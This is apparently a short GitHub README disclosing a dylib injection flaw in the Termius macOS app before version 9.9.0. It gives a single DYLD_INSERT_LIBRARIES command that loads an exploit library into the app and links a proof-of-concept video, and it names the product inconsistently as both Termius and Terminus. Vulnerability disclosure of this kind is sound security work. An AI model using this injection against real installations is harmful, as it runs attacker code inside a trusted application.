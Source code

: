 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```

[![poc video](https://img.youtube.com/vi/_5tFXJQIzi4/0.jpg)]([https://www.youtube.com/watch?v=_5tFXJQIzi4](https://youtu.be/R-Kze6liCwA))

